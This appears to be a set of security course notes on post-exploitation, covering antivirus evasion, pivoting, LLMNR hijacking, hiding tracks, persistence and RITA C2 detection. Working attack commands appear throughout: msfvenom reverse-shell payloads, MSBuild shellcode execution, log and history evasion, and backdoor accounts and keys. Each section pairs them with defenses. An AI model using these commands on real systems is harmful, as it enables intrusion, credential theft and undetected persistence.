The last book already :(, here we'll shift focus to what attackers do after exploitation. Of course, they don't just sit in the system; let's find out what they actually do.

## Endpoint Security Bypass

For most modern systems, attackers expect an endpoint security system to be in place — whether it's legacy antivirus with signature detection or an endpoint detection and response (EDR) platform. Attackers have two main strategies to deal with this: modify an existing tool to evade detection, or adapt their tactics to use tools and techniques that achieve their goals without triggering an alert. For sophisticated attackers, bypassing endpoint security is always possible, though rarely on the first attempt.

### Ghostwriting

Ghostwriting is the process of modifying an executable's assembly code to bypass endpoint detection by inserting junk code — lines that change the program's behavior or structure without affecting its actual output. For example, a program that prints the sum of `2+2` could instead calculate `2-(-2)`, producing the same result through a different method. Or you could add 10 and then subtract 10. The program output stays the same, but the file's hash changes, allowing it to evade detection.

### Steps

1. Create an `.exe`
2. Convert it to an `.asm` file
3. Edit the `.asm` file
4. Convert it back to an `.exe` file

Let's walk through this on a real executable. First, you need a binary to work with:

```bash title="Generate a reverse-shell payload with msfvenom"
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.144.151 LPORT=4444 -f raw -o payload.raw --platform windows -a x86
```

Next, use the Metasm library to convert the raw file to ASCII assembly source:

```bash title="Disassemble the payload to ASM"
ruby /opt/metasm/samples/disassemble.rb payload.raw > payload.asm
```

Now edit the assembly file to obfuscate it. Look for `xor` operations — where a register is XORed against itself to zero it out — and add `PUSH`/`POP` operations that do nothing except add noise to cover the real code. This changes the file hash, making it undetectable by antivirus.

After modifying the assembly source, recompile it back into a PE executable:

```bash title="Recompile the obfuscated assembly to EXE"
ruby /opt/metasm/samples/peencode.rb payload.asm -o payload.exe
```

The attacker then tests it locally to see if it evades the endpoint security system. In most cases, multiple edits are required before success.

### DefenderCheck

For an attacker, the key questions are: how much obfuscation is needed before it's undetected, and which parts of the file need to change? Attackers often use OSINT to discover the target's endpoint protection system, install it locally, isolate it from the internet, and then test their sample against it until it evades successfully.

:::tip
DefenderCheck is a tool that helps automate this process. It takes a file and scans it on a local Windows 10 system using Windows Defender. If an alert is raised, it splits the file in two and scans each half independently, discarding the half that doesn't trigger an alert. It repeats this binary-search approach until it pinpoints the exact chunk causing the alert.
:::

In the example shown, DefenderCheck scanned the Mimikatz executable and identified a 112-byte chunk that triggered Windows Defender. The attacker can then focus ghostwriting techniques on modifying just that section to create an undetected version.



### Additional Endpoint Bypass Techniques

- Deploy malware to a system exclusion directory not scanned by the endpoint detection system.
- Use keyed payloads, where the payload is encrypted using a key taken from an environment variable. The key isn't in the binary itself, so the signature differs for each malware instance.
- Use lesser-known languages like Golang, since some security products have parsing issues with Go binaries.
- Digitally sign malware to mark it as somewhat trustworthy.

:::note
Most projects that published new endpoint evasion techniques eventually closed down. As tools gain popularity, endpoint suites add detection for them, so developers stop sharing techniques publicly to extend their private utility. This is bad for defenders, as it slows the rate at which EDR systems improve and detect new techniques.
:::

One technique that still works is **Living Off The Land (LOL)** — instead of using third-party tools, attackers abuse existing trusted Windows tools to accomplish their goals.

### LOL — Atbroker Invocation

:::caution
Using a built-in Windows tool signed and included by Microsoft to launch malicious content. Attackers abuse it to launch malware with the same level of trust as the legitimate tool itself.
:::

Instead of launching `malware.exe` directly, an attacker can configure `atbroker.exe` to run any arbitrary executable by creating a registry key:

```
HKLM\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Accessibility\ATs\malware
```

Then add two registry entries:

- `TerminateOnDesktopSwitch` with a `REG_DWORD` value of `0`
- `StartExe` with a path to the malware executable

This causes the malware to run while evading endpoint security controls.

### MSBuild C# Execution

MSBuild is used to build and execute C, C++, and C# code. An attacker can leverage it to compile and run code directly from source files. Since MsfVenom can export any Metasploit payload as C# code, this becomes an attractive option:

```bash title="Export Metasploit payload as C# code"
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.0.6 lport=4444 -f csharp > meterpreter.cs
```

MSBuild can't compile and run C# code directly, so the attacker downloads an MSBuild shellcode wrapper:

```bash title="Download MSBuild shellcode wrapper"
wget https://tinyurl.com/msbuildshellcode -O file.csproj
```

Edit the wrapper to insert the new payload:

```bash title="Edit the MSBuild project file"
nano file.csproj
```

Start a Metasploit handler waiting for the reverse TCP connection:

```bash title="Start Metasploit handler for incoming connection"
msfconsole -qx "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LPORT 4444; set LHOST 0.0.0.0; exploit"
```

With the modified MSBuild wrapper ready, execute the payload using the MSBuild.exe executable:

```bash title="Execute payload via MSBuild.exe"
c:\windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe file.csproj
```

### Defenses

Bypassing endpoint protection is always possible with enough time — but that doesn't mean defenders should give up. Instead, invest in a good, current, well-maintained EDR platform with features like application allowlisting, threat hunting, logging, and monitoring. User and Entity Behavior Analytics (UEBA) tools are also valuable for capturing normal system behavior and identifying deviations from those patterns (e.g., `WS-ACCT-05` is running `MSBuild.exe` and has never done so before).

:::important
The main benefit of these tools isn't that they stop attackers every time on the first attempt. In most cases, they'll stop the attacker initially, then the attacker finds a technique to evade it eventually. However, that first block or log gives you a heads-up. When paired with rapid incident response, this early detection may stop the entire attack chain.
:::



## Pivoting and Lateral Movement

Attackers can reuse their command-and-control (C2) access to pivot and gain access to new hosts in the network — for example, using the Meterpreter C2 framework, either deployed as part of the initial exploit or through an independent payload generated with MsfVenom.

### Meterpreter Pivoting

Meterpreter offers several options to let an attacker access the internal network by reusing the C2 link. Consider this example: an attacker at `96.97.98.99` has compromised an internal system at `10.10.10.11` (through any exploitation method), making that internal system the pivot point.



Using Meterpreter, the attacker can start a proxy server listening on `96.97.98.99` that forwards all traffic through the C2 link. From inside the organization, all traffic appears to originate from `10.10.10.11`, but it's actually from the attacker.

An attacker can also reuse the Meterpreter C2 link and leverage additional Metasploit exploits or `auxiliary` modules to attack internal systems using the `route` command.

Attackers can also connect to a specific port and IP within the network by setting up a port forwarder using the `portfwd` command:

```bash title="Set up port forwarding through Meterpreter"
portfwd add -l 8000 -r 10.10.10.100 -p 80
```

### ROUTE Pivoting

Starting with an existing session obtained through `exploit/windows/smb/psexec`, use the `background` command to return to the console prompt. Then issue the `route` command so any access to the `10.10.10.0/24` network is delivered through the Meterpreter session. Once established, any Metasploit module targeting an IP in that range will traverse through the session.

### Host Discovery and Port Scanning

Metasploit's route feature also works with auxiliary modules, allowing port scanning within Metasploit itself. Assuming you have a session, use the `arp_scanner` module for LAN host discovery:

```bash title="Scan for hosts using ARP"
run arp_scanner -r 10.10.10.0/24
```

If hosts are found, follow up with port scanning using modules like `auxiliary/scanner/portscan/tcp`, specifying which ports you want to scan.

For **Linux or UNIX systems**, SSH offers useful pivoting features. Set up a simple port forward through the host to a specific target:

```bash title="SSH port forward"
ssh -L 8000:10.10.10.100:80 victortimko@10.10.10.11
```

The `-L` flag establishes port forwarding; the first IP is the victim, and the second is where data is forwarded.

Alternatively, use the `-D` flag followed by an arbitrary port number to start a SOCKS proxy server on the attacker system, allowing any SOCKS-aware client to communicate through an SSH tunnel.

For **Windows systems**, use `netsh`, a built-in command-line tool to listen on a port and forward activity to a remote IP and TCP port:

```bash title="Windows port proxy with netsh"
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80
```

:::note
The listening port here is on the victim's system, not the attacker's.
:::

Pivoting doesn't require complex redirectors — it can be achieved using many LOLbins: on Unix, use `smbclient` to attack systems instead of installing Nmap, or use `ncat` for port scanning. Instead of proxy servers, use `wget` and `curl` to interact with web servers. On Windows, PowerShell offers powerful functionality that mirrors Unix tools.

Pivoting is ultimately a question of opportunity for the attacker — what new targets, data resources, and evasion opportunities become possible through pivoting?

Lateral movement involves many of the same attacks covered earlier in this course, but it also introduces new opportunities. Some attacks — like man-in-the-middle (MITM) attacks or local password harvesting — only become possible after an initial compromise or through access to a privileged network position.



## Hijacking Attacks

In a hijacking attack, the adversary responds to a system's request for a service, pretending to be a legitimate server. This often involves machine-in-the-middle (MITM) techniques — observing multicast requests on the LAN and injecting a response for the client to process.

For attackers, one powerful opportunity is exploiting resolution protocols like Link-Local Multicast Name Resolution (LLMNR). By pretending to be a server, the attacker tricks the victim into sending authentication credentials. Here's how: a victim sends a multicast LLMNR message asking for `server01` (typed by the user), which fails to resolve via DNS and falls back to LLMNR. All devices on the LAN see the request, but none respond — except the attacker, who replies "I'm server01" with their IP. The victim connects and sends an authentication request encrypted with their password hash, which the attacker can then use for password cracking.

### Responder

:::tip
Responder is a powerful hijacking attack tool. On Windows, it waits for LLMNR requests and acts as a Windows SMB server. When a victim tries to connect, their credentials are logged automatically. A Linux version also exists.
:::

On Linux, start the Responder application:

```bash title="Start Responder on a network interface"
sudo /opt/Responder/Responder.py -I eth0
```

The `-I` flag specifies the target interface; you can also use `-i` to forward captured data to another machine.

When a user requests a service where the hostname isn't resolved by DNS, Responder replies to the final resolution attempt (multicast DNS) with the attacker's IP, forcing the user to connect to the attacker's service and potentially disclosing NTLMv2 authentication hash information.

### Defenses

The best defense is to disable LLMNR support on servers and workstations. LLMNR was once valuable for small workgroups, but it's now primarily a liability. Disable it using Group Policy by navigating to:

```
Computer Configuration | Administrative Templates | Network | DNS Client
```

Enable the "Turn off multicast name resolution" option. LLMNR can also be disabled through the Local Policy Editor or via a registry edit on individual systems.

Additionally, enable VLANs whenever possible and use User and Entity Behavior Analysis (UEBA) tools — either host-based or network-based — to quickly identify post-compromise activity patterns.



## Covering Tracks

Attackers have three major goals: compromising the target, achieving post-exploitation goals, and evading detection for as long as possible. Evasion steps range from minor file cleanup to sophisticated log removal and rootkit deployment.

### Hiding Files in UNIX

In UNIX/Linux, hidden files begin with a dot. Defenders can view them with `ls -a`, but it shows many unneeded files, so this command is less frequently used.

Attackers may also store files in directories less likely to be noticed:

- `/dev` — contains device info and references to terminals; it's full of files.
- `/tmp` — contains temporary files created by applications. Good for hiding but deleted on reboot, so attackers must restore data to this location.
- Complex filesystem areas like `/usr/local/man` (manual pages) or `/usr/src` (source code), which users don't understand and admins rarely inspect.

With privileged access, attackers can create directories that blend with legitimate ones. For example, `/etc/initd` with `.conf` file extensions (despite being tar files) could be mistaken for a real configuration directory, since the actual directory is `/etc/init.d`.

Without root access, attackers are limited to directories they can write to. Find these with:

```bash title="Find writable directories"
find / -type d -perm -0222 2>/dev/null
```

### UNIX Log Editing

After taking over a system, attackers typically alter system logs to erase entries associated with their access techniques. Some might clear all logs — easily noticeable to sysadmins — but sophisticated attackers delete only selected entries, removing just the incorrect logins or process crashes related to their exploitation.

On UNIX, the syslog process stores logs; its configuration is in `/etc/syslog.conf`. By default, logs are stored in `/var/log`. Some applications maintain their own directories — Apache uses `/var/log/httpd`, Nginx uses `/usr/local/nginx/logs`.

With root privilege, an attacker can edit log files. Since most logs in `/var/log` are written in ASCII, they're editable with tools like `vi` or `nano`.

### Shell History

In UNIX shells, each command typed is optionally recorded. By default, bash history is stored in `$HOME/.bash_history` for each user (typically 500–1000 recent commands).

Attackers prevent commands from being saved using techniques like:

```bash title="Prevent history recording"
unset HISTFILE
```

or

```bash title="Kill the shell to avoid history flush"
kill -9 $$
```

In some Linux distributions, prefixing a command with a space eliminates it from history — but only when the `HISTCONTROL` environment variable is set to `ignorespace`.

### Accounting Entries in UNIX

UNIX systems have four accounting files:

- **`utmp`** — stores info on all currently logged-in users; the `who` command reads it.
- **`wtmp`** — stores info on all users who have ever logged in.
- **`btmp`** — stores info on failed login attempts (often disabled because it records accidental password typos).
- **`lastlog`** — shows the most recent login time and date for each user.

Attackers want to modify these files so sysadmins can't detect their activity, but they can't simply edit them as text — they're written in a `utmp` structure and require specialized tools. Rather than trying to edit them, attackers often just delete them.

### Windows — Alternate Data Streams

:::note
Attackers leverage Alternate Data Streams (ADS) to hide files in NTFS and ReFS filesystems. ADS allows a single file to have a default data stream plus additional independent streams. The content follows the file across copy/move operations as long as the filesystem supports ADS. When defenders examine files using `dir`, `Get-ChildItem`, or Windows Explorer, they only see the default stream.
:::

**Creating ADS:**

Using the `type` command:

```bash title="Hide a file in an ADS"
type NTDS.dit > Kitchen.docx:NTDS.dit
```

In PowerShell:

```bash title="Create an ADS with PowerShell"
Get-Content -Path .\NTDS.dit | Set-Content -Path .\OfficeKitchen.docx -Stream NTDS.dit
```

Notepad can also be used:

```bash title="Create an ADS with notepad"
notepad defaultfile.txt:secretfile.txt
```

Data stored in an ADS can be binary, PowerShell scripts, Office files, or executables. To launch them:

```bash title="Execute a file stored in an ADS"
wmic process call create C:\TEMP\OfficeKitchen.docx:flamingo.exe
```

**Finding ADS:**

Several tools identify alternative data streams. Built-in commands include:

```bash title="Show all files and streams in a directory"
dir /r
```

In PowerShell:

```bash title="Find all ADS in current directory"
Get-Item * -Stream *
```

Search all subdirectories for non-default streams:

```bash title="Recursively find all non-default ADS"
Get-ChildItem -recurse | ForEach { Get-Item $_.FullName -stream * } | Where stream -ne ':$DATA'
```

Microsoft Sysinternals `streams64.exe` also identifies ADS:

```bash title="Find and remove ADS with Sysinternals"
streams64.exe -s -d
```

The `-s` flag searches recursively; `-d` removes non-default streams.

### Defenses

One of the most effective defenses is using a separate logging server. If an attacker compromises a system, they can find and alter local logs, but they can't easily remove evidence from a remote server. Configure syslog on Unix to send logs to a remote host by editing the configuration file.

For Windows, deploy Windows Event Forwarding (WEF). Combine this with User and Entity Behavioral Analytics to identify log gaps, corrupted logs, and unusual files.



## Establishing Persistence

Almost all attackers seek to establish a persistence mechanism on a compromised host. Many exploits don't grant persistence automatically — a reboot or defensive action may terminate access — so persistence mechanisms are essential.

Choosing a persistence method depends on several factors:

- Regaining access to the compromised system
- Avoiding detection
- Preserving privileges and access
- Having flexible triggers for reestablishing access

For many attackers, the persistence method is built into the attack framework and C2 tools used — such as Metasploit Meterpreter or other frameworks.

### Persistence on Windows

**Creating Accounts:**

The most straightforward persistence method on Windows is creating a new user account and making it an administrator. From a Meterpreter shell established by a previous exploit, use the `execute` command to run local Windows commands. The `-f` argument runs the command as a background, non-interactive process:

```bash title="Create a new user account"
execute -f "net user /add assetmgtacct Att@ckerPassw0rd"
```

:::note
The password must meet the system's minimum complexity requirements.
:::

Add the user to the local administrators group:

```bash title="Add user to administrators group"
execute -f "net localgroup administrators /add assetmgtacct"
```

Verify everything is working:

```bash title="List all user accounts"
execute -i -f "net user"
```

The `-i` flag returns output and makes the command interactive.

**Services:**

Beyond OS-specific commands, Metasploit and other frameworks offer automated persistence scripts. The `persistence_service` exploit is one example. Windows services are background tasks managed by the OS that can start automatically at boot or after a specified delay — making them an ideal persistence mechanism.

The Metasploit `persistence_service` module automates creating the service and generates a payload written to the temp directory.

**Silent Process Exit:**

Attackers also abuse built-in Windows features to establish persistence less suspiciously. Windows includes debugging features for developers — one of them is silent process exit, which launches a debugger process when a target process terminates (normally or unexpectedly).

:::caution
Metasploit's `persistence_image_exec_options` exploit leverages the silent process exit mechanism, but it requires SYSTEM privileges. The attacker must first migrate into a SYSTEM-level process.
:::

List all SYSTEM processes:

```bash title="List SYSTEM-level processes"
ps -s
```

Migrate into one:

```bash title="Migrate into a SYSTEM process"
migrate -N GoogleCrashHandler64.exe
```

Background the current session and load the exploit:

```bash title="Load the silent process exit persistence exploit"
use exploit/windows/local/persistence_image_exec_options
```

Set the parameters:

```
set lhost 10.10.75.1
set image_file notepad.exe
set path c:\temp
set payload_name calc
set session 1
run
```

Now, when the attacker's Meterpreter connection dies (e.g., after a reboot), they wait for the victim to open and close Notepad. The debugger then launches `calc.exe`, establishing a new Meterpreter session.

:::note
This configuration is persistent on the Windows system, saved in the registry at:
`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\ProcessName`

Anytime the attacker loses access, they only need to wait for the targeted process to open and close to reestablish connection. This mechanism is attractive because it's less predictable than a constantly-running service — it may remain dormant for hours or months depending on victim system usage.
:::

**WMI Event Subscription:**

Windows Management Instrumentation (WMI) is a built-in feature allowing users to interface with drivers and system components to collect data and subscribe to arbitrary Windows events. Similar to scheduled tasks (where code runs based on time of day or delay), WMI is far more flexible — it can run code based on almost any system behavior: boot, failed login, CPU spike, disk full messages, and more.

:::tip
WMI flexibility makes it valuable for attackers as a persistence mechanism. Like scheduled tasks, an attacker can create a process that establishes a C2 connection, but WMI offers nearly unlimited flexibility in choosing the triggering event.
:::

Attackers can write a Managed Object File (`.mof` extension) describing the subscription and the event to trigger malicious code execution. MOF syntax is similar to C++, and it's compiled and executed using the Windows built-in tool `mofcomp.exe`. Alternatively, use Metasploit's built-in `wmi_persistence` exploit or other tools.

From a Meterpreter session, load the exploit:

```bash title="Load the WMI persistence exploit"
use exploit/windows/local/wmi_persistence
```

Set the trigger event — for example, a failed login by username `josh`:

```bash title="Set the trigger username"
set username_trigger josh
```

Set a delay before payload execution:

```bash title="Set callback interval"
set callback_interval 1000
```

To trigger the payload, the attacker attempts to log in and fail (event ID `4624`), which can be triggered using `smbclient` or any SMB/RDP login attempt.

**Active Directory Persistence: Golden Ticket**

:::important
Windows domains use Kerberos for authentication. Every Windows domain has a `krbtgt` (Kerberos Ticket Granting Ticket) user account whose password serves as the root of trust. The golden ticket attack exploits this by forging Ticket Granting Tickets (TGTs), granting unauthorized access and persistence.
:::

The attack proceeds in four basic steps:

1. Compromise a domain controller through exploitation or other means.
2. Retrieve the `krbtgt` user password hash.
3. Use the hash to forge TGTs with `Mimikatz` or `Impacket`.
4. Feed the forged trusted ticket to any service on the network, bypassing Kerberos authentication entirely.

By abusing the root of trust in the Kerberos network, attackers sidestep all authentication requirements. This same attack applies when a Certificate Authority is compromised — all authentication services then fall under the attacker's control.

**Web Shells:**

Compromised web servers are common targets for web shell persistence. After compromising the server, an attacker inserts code that grants remote access when executed. This can be done by modifying an existing file or adding a new one with web shell code, sometimes hidden or obfuscated.

For example, an attacker might add a file named `imageupload.html` that allows submitting one or more commands for execution on the server.

### Linux Persistence

Many persistence mechanisms apply to Linux as well:

- Adding users with the `adduser` command
- Creating scheduled tasks with `crontab`
- Using GNU debugger (`gdb`) for debugging facilities
- Using SSH for remote access

Instead of creating a new user, attackers often add a new SSH public key to the user's `authorized_keys` file, allowing remote login without requiring a known password:

```bash title="Generate SSH keypair"
ssh-keygen
```

On the victim system:

```bash title="Add attacker's public key to authorized_keys"
cat >> ~/.ssh/authorized_keys < paste contents of attacker_rsa.pub >
```

Now the attacker logs in using their private key with the `-i` argument, bypassing password entry.

### Cloud Persistence

Cloud environments present different persistence opportunities. While some principles from traditional systems apply, cloud persistence primarily involves manipulating Identity and Access Management (IAM) functionality.

Getting access to IAM allows attackers to gain privileged access to the infrastructure. If a cloud account is compromised, attackers can create new users, create backdoor access keys so access persists even if the password is changed.

For AWS, enumerate IAM accounts:

```bash title="List AWS IAM users"
aws iam list-users
```

AWS accounts allow up to two access keys per IAM user. Identify users with only one or no keys:

```bash title="List access keys for a specific user"
aws iam list-access-keys --user-name jsmith
```

Create a new access key for the target user:

```bash title="Create a new access key for persistence"
aws iam create-access-key --user-name jsmith
```

### Defense

Persistence defense focuses on discovery and identification. Remediation comes after identifying the persistence mechanism.

For Windows, use Sysinternals **Autoruns**, which displays all the persistence mechanisms discussed: Auto-Start Extensibility Points (ASEPs), scheduled tasks, services, WMI event subscriptions, and debugging-triggered execution (silent process exit).

For detecting unauthorized account creation, monitor for commands like `net user`.

Monitor Windows for these event IDs:

- `4624` — An account was successfully logged on
- `4634` — An account was logged off
- `4672` — Special privileges assigned to new logon
- `4732` — A member was added to a security-enabled local group
- `4648` — A logon was attempted using explicit credentials
- `4688` — A new process has been created
- `4697` — A service was installed in the system
- `4768` — A Kerberos authentication ticket (TGT) was requested

:::warning
If you suspect a golden ticket attack on a compromised domain, change the `krbtgt` password twice. The `krbtgt` account keeps only one password in history, so a single change isn't enough to invalidate the attacker's forged tokens.
:::

These detection methods don't scale well, so invest in an enterprise EDR tool. Also remember that attackers often deploy multiple persistence methods — don't assume the one you've found is the only one.

Use Microsoft tools like `netstat`, `wmic`, `reg`, `schtasks`, and `sc` carefully. As an incident responder, your greatest strength in identifying persistence is understanding the techniques attackers use to achieve their goals.



## RITA (Real Intelligence Threat Analytics)

Attackers have learned to evade traditional IDS tools through statistical evasion. RITA is a free, open-source solution that identifies attacker C2 using statistical anomaly analysis rather than packet payload inspection. It processes logs generated by Zeek and works best with 24+ hours of logging data, making it an effective threat hunting tool for identifying and responding to network compromises.

### Fundamentally Different Network Behavior

Attackers don't behave like normal networks. Key differences include:

- Long connection durations between C2 and victim endpoint
- Consistent data sizes in packets used for heartbeat checking
- Consistent packet intervals (within C2 sleep timers)
- Consistent packet intervals with jitter metrics (skew)
- Total session size or byte count consistency

RITA uses these characteristics to identify attacker C2 across any organization — it's not specific to any one C2 framework, but works for all.

### Basic Use of RITA

First, create a directory to store Zeek data. Process a PCAP file with Zeek:

```bash title="Process PCAP with Zeek"
zeek -Cr ~/big-capture.pcap
```

The `-r` flag reads the captured file; `-C` ignores TCP checksums. Import Zeek's data into RITA:

```bash title="Import Zeek data into RITA"
rita import . mynetwork
```

Generate the HTML report:

```bash title="Generate RITA HTML report"
rita html-report mynetwork
```

The generated report includes analysis of:

- **Beacons** — regular timing between connections/packets
- **Strobes** — high packet counts in short periods without stealth
- **DNS** — detailed DNS activity analysis
- **Deny List Sources/Destinations** — connections from/to blocklisted IPs
- **Deny List Hostnames** — hostnames associated with blocklisted IPs
- **Long Connections** — long TCP session durations
- **User Agents** — web browser User Agent statistics

